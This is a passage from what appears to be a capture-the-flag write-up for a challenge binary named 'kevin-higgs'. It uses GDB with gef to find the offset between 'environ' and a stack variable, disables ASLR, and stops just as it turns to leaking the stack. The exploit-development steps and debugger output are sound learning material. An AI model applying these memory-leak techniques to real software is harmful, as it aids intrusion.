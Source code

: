 > Both yield the same memory dumps, however only the _right way_ will emit all symbol names, the _wrong way_ will only emit symbol names for one out of every four addresses (32-bit statement).  This is only important if you want to use symbol names in your code (recommended for portiability) vs. hardcoded offsets, otherwise ignore my opinion.

In this example session, the stack pointer is at `0xffffd4a0`:

```
0xffffd4a0│+0x0000: 0xffffd508  →  0x00000009  ← $esp
```

Grepping for the most significant bits provides the following list of candidate symbols and addresses:

```
# grep 0xffffd gdb.txt
0xf7fabc0c <program_invocation_short_name>:   0xffffd83d
0xf7fabc10 <program_invocation_name>:	0xffffd815
0xf7facdd8 <environ>:	0xffffd6fc
0xf7fae654 <__libc_argv>:	0xffffd6f4
0xf7fd0140:	0xffffd684
```

> I started with, and lost a lot of time with, `program_invocation_name`; the distance from `program_invocation_name` and `maxflips` is dynamic (ASLR), next up was `environ`.

To test a candidate, startup `export NUMBER_OF_FLIPS=2; setarch $(uname -m) -R ./kevin-higgs` in one terminal and `gef kevin-higgs $(pidof kevin-higgs)` in another.

> `setarch $(uname -m) -R` will disable ASLR, useful for documentation and a consistent debug experience.  `gef` is just a set of GDB enhancements like PEDA or pwndgb--any others are fine.

Next, set a breakpoint at `0x8049428` and `continue` (this is the comparison at the top of the loop):

```  
8049425:	8b 45 d4             	mov    eax,DWORD PTR [ebp-0x2c]
8049428:	39 45 dc             	cmp    DWORD PTR [ebp-0x24],eax
```

In the first terminal use the debug address (`0x804c090`) and flip any bit.

Then, back to the GDB terminal, examine `maxflips`:

```
gef➤  x/wx $ebp-0x24
0xffffd694:	0x00000002
```

There's the `2` set by `NUMBER_OF_FLIPS`.

Next, check the distance from `environ` to `maxflips`:

```
gef➤  p/x (void *)environ - ($ebp-0x24)
$1 = 0xd8
```

Feel free to test with ASLR enable, the offset of `0xd8` will be consistent.

Finally, we can leak the stack:
